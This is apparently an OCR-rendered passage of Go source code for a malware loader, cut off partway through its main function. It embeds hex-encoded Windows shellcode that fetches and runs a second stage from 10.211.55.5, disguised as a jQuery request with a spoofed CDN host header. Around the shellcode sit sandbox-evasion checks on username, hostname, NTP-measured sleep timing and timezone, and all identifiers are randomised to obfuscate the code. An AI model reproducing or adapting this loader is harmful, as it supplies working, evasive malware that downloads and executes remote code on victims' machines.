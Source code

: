 ```
var KynNDPgjUmE string = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x0f\x27\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x60\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x6a\x71\x75\x65\x72\x79\x2d\x33\x2e\x33\x2e\x31\x2e\x73\x6c\x69\x6d\x2e\x6d\x69\x6e\x2e\x6a\x73\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x2c\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x6d\x6c\x3b\x71\x3d\x30\x2e\x39\x2c\x2a\x2f\x2a\x3b\x71\x3d\x30\x2e\x38\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x65\x6e\x2d\x55\x53\x2c\x65\x6e\x3b\x71\x3d\x30\x2e\x35\x0d\x0a\x48\x6f\x73\x74\x3a\x20\x63\x64\x6e\x2e\x62\x6f\x6f\x74\x63\x73\x73\x2e\x63\x6f\x6d\x0d\x0a\x52\x65\x66\x65\x72\x65\x72\x3a\x20\x68\x74\x74\x70\x3a\x2f\x2f\x63\x64\x6e\x2e\x62\x6f\x6f\x74\x63\x73\x73\x2e\x63\x6f\x6d\x2f\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x64\x65\x66\x6c\x61\x74\x65\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x33\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x37\x2e\x30\x3b\x20\x72\x76\x3a\x31\x31\x2e\x30\x29\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\xaf\x0f\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x30\x2e\x32\x31\x31\x2e\x35\x35\x2e\x35\x00\x00\x00\x00\x00"
func main() {
dNnhwvvKJzppv, NIRbEkBGeBL := user.Current()
if NIRbEkBGeBL != nil {
os.Exit(1)}
if strings.Contains(strings.ToLower(dNnhwvvKJzppv.Username), strings.ToLower("lll")) {
jhYkqxWdxLYMRzS, tjbTZPVgxDczfz := os.Hostname()
if tjbTZPVgxDczfz != nil {
os.Exit(1)}
if strings.Contains(strings.ToLower(jhYkqxWdxLYMRzS), strings.ToLower("win7")) {
type ntp_struct struct {FirstByte,A,B,C uint8;D,E,F uint32;G,H uint64;ReceiveTime uint64;J uint64}
sock,_ := net.Dial("udp", "us.pool.ntp.org:123");sock.SetDeadline(time.Now().Add((6*time.Second)));defer sock.Close()
ntp_transmit := new(ntp_struct);ntp_transmit.FirstByte=0x1b
binary.Write(sock, binary.BigEndian, ntp_transmit);binary.Read(sock, binary.BigEndian, ntp_transmit)
val := time.Date(1900, 1, 1, 0, 0, 0, 0, time.UTC).Add(time.Duration(((ntp_transmit.ReceiveTime >> 32)*1000000000)))
time.Sleep(time.Duration(10*1000) * time.Millisecond)
newsock,_ := net.Dial("udp", "us.pool.ntp.org:123");newsock.SetDeadline(time.Now().Add((6*time.Second)));defer newsock.Close()
second_transmit := new(ntp_struct);second_transmit.FirstByte=0x1b
binary.Write(newsock, binary.BigEndian, second_transmit);binary.Read(newsock, binary.BigEndian, second_transmit)
if int(time.Date(1900, 1, 1, 0, 0, 0, 0, time.UTC).Add(time.Duration(((second_transmit.ReceiveTime >> 32)*1000000000))).Sub(val).Seconds()) >= 10 {_, vMrDrdraJQbRxiR := time.Now().Zone()
if vMrDrdraJQbRxiR != 0 {
CtRsyrQfyp, ndNDpWTRkKOjw := laiTJbWfGgsLhF(uintptr(len(KynNDPgjUmE)))
if ndNDpWTRkKOjw != nil {
fmt.Println(ndNDpWTRkKOjw)
os.Exit(1)
```